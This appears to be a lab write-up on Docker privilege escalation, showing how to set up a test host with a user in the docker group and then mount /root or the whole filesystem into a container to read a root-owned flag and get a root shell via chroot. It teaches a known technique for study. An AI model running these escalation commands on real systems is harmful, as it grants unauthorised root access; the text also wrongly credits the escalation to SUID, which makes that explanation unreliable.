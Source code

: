 # SUID Docker

## To create a vulnerable host

install docker using this:

{% embed url="https://docs.docker.com/engine/install/debian/#install-using-the-repository" %}

after the installation is completed add a new user for this test and add it to the docker group

#### `adduser test` `usermod -aG docker test`

Now ssh to the target with the new user

![](../../../../.gitbook/assets/docker.png)

we have access to the docker group

to test this run docker hello-world default image

#### `docker run hello-world`

![](../../../../.gitbook/assets/docker2.png)

what just happened was docker client connected to docker daemon and the daemon pulled the "hello-world" image from docker hub. then it created a nre container from that image and ran it. then the daemon streamed the output "Hello from Docker!" to docker client which sent it to the terminal.

we can do this with another image like an ubuntu container:

#### `docker run ubuntu`

one of dockers features is that it can mount a directory from the host system to a directory in the container for quick file grabbing.

#### `docker run -v /root:/mnt ubuntu cat /mnt/flag.txt`

By using the -v flag we specified a volume to mount, in this case the /root directory on the host was mounted to the /mnt directory on the container. Because docker has SUID we were able to mount a root owned directory in our container!

we can get a shell using the same technique combined with the chroot command

#### `docker run -it -v /:/mnt ubuntu chroot /mnt`

![](../../../../.gitbook/assets/docker3.png)
